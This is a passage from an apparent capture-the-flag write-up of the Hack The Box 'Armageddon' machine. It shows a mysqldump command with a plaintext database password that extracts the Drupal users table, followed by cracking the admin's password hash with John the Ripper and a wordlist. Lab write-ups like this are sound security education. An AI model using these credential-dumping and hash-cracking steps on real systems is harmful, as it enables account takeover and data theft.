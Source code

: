 ## MySQLDump

So we've found a database called drupal, with a table called users, that contains usernames and passwords. We can use another mysql tool to retrieve the contents of the users table. This time we use [mysqldump](https://dev.mysql.com/doc/refman/8.0/en/mysqldump.html) to see it:

```text
armageddon.htb>> mysqldump -u drupaluser -pCQHEy@9M*m23gBVj drupal users
-- MySQL dump 10.14  Distrib 5.5.68-MariaDB, for Linux (x86_64)
--
-- Host: localhost    Database: drupal
-- ------------------------------------------------------
-- Server version       5.5.68-MariaDB
<SNIP>
--
-- Dumping data for table `users`
--
LOCK TABLES `users` WRITE;
/*!40000 ALTER TABLE `users` DISABLE KEYS */;
INSERT INTO `users` VALUES (0,'','','','','',NULL,0,0,0,0,NULL,'',0,'',NULL),(1,'brucetherealadmin','$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt','admin@armageddon.eu','','','filtered_html',1606998756,1607077194,1607076276,1,'Europe/London','',0,'admin@armageddon.eu','a:1:{s:7:\"overlay\";i:1;}');
/*!40000 ALTER TABLE `users` ENABLE KEYS */;
UNLOCK TABLES;
<SNIP>
-- Dump completed on 2021-07-28 22:32:46
```

## Hash Cracking

We have another password for bruce, this one is hashed. We can assume it will be crackable using JohnTheRipper and rockyou wordlist:

```text
┌──(root💀kali)-[~/htb/armageddon]
└─# echo "$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt" > hash.txt

┌──(root💀kali)-[~/htb/armageddon]
└─# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
booboo           (?)
1g 0:00:00:00 DONE (2021-07-28 22:38) 2.439g/s 565.8p/s 565.8c/s 565.8C/s tiffany..harley
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## User Flag
